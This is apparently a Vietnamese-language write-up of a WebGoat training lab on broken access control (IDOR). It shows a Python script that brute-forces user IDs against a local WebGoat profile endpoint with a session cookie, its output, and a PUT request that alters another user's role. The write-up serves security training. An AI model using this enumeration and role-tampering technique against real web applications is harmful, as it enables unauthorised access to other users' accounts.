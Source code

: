 ### **POC**

Ở phần 2 và 3, khi đăng nhập tài khoản **`tom:cat`** thì khi nhấn vào view profile để xem thông tin thì có một request được gửi đi `/profile` với response trả về như hình 

![Untitled]((A1)Broken%20Access%20Control%207fb110e753944c7fa58a48dee83dff10/Untitled%207.png)

Sử dụng url này kèm với userId: `…/profile/{userId}` thì có được một response như sau

![Untitled]((A1)Broken%20Access%20Control%207fb110e753944c7fa58a48dee83dff10/Untitled%208.png)

Feedback trả về nói là đã đúng đường dẫn nhưng cần thử một userId khác, lúc này chỉ cần viết một script nhỏ để bruteforce userId hợp lệ (hoặc dùng Intruder của Burp Suite)

```python
import requests

URL = "http://localhost:8080/WebGoat/IDOR/profile/"
headers = {  
    'Cookie': 'JSESSIONID={your session id}'
}  
id = 2342384
while True:
    r = requests.get(URL + str(id), headers=headers)
    json = r.json()
    lessonCompleted = json["lessonCompleted"]
    if lessonCompleted == True:
        print("[+] ID found: " + str(id))
        break
    else:
        id += 1
        print("[-] Trying ID: " + str(id))
```

```powershell
PS C:>Users/Admin/Desktop> python -u "d:\VNPT\projects\WebGoat\Payload\bruteforce-id.py"
[-] Trying ID: 2342385
[-] Trying ID: 2342386
[-] Trying ID: 2342387
[-] Trying ID: 2342388
[+] ID found: 2342388
```

Vậy userId cần hợp lệ là 2342388, truy cập đường dẫn [http://localhost:8080/WebGoat/IDOR/profile/2342388](../WebGoat%203dac4e1692924b5c97aa993738623e50.md)  sẽ pass được phần **View Another Profile** của lab này.

Tiếp theo đổi method thành PUT và Content-Type thành **`Content-Type: application/json`** và body:

```json
{"role":"1", "color":"red", "size":"large", "name":"Buffalo Bill", "userId":"2342388"}
```

Gửi request:

![Untitled]((A1)Broken%20Access%20Control%207fb110e753944c7fa58a48dee83dff10/Untitled%209.png)
